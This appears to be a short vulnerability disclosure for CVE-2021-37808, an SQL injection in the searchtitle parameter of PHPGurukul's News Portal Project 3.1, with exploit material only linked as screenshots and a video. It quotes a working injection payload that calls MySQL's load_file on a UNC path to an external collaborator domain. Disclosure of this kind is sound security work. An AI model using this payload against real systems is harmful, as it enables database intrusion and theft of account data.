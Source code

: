 ## [CVE-2021-37808](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37808)

## [Vendor](https://phpgurukul.com/news-portal-project-in-php-and-mysql/)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-37808/dosc/Screenshot%202021-12-02%20204811.png)

## Description:
The searchtitle parameter from News Portal Project 3.1 appears to be vulnerable to SQL injection attacks. 
The payload '+(select load_file('\\\\wddcdzjvtmxtfkwxdw5gwdmxpovhj99x00osbiz7.nu11secur1tycollaborator.net\\lni'))+' was submitted in the searchtitle parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed. The attacker can be retrieving sensitive information 
for all accounts of this system, and he can manipulate them! 
STATUS: Critical and awful.

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-37808)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-37808/dosc/Screenshot%202021-12-02%20204948-terminal.png)

## Proof and Exploit:
[href](https://streamable.com/jmzf5i)

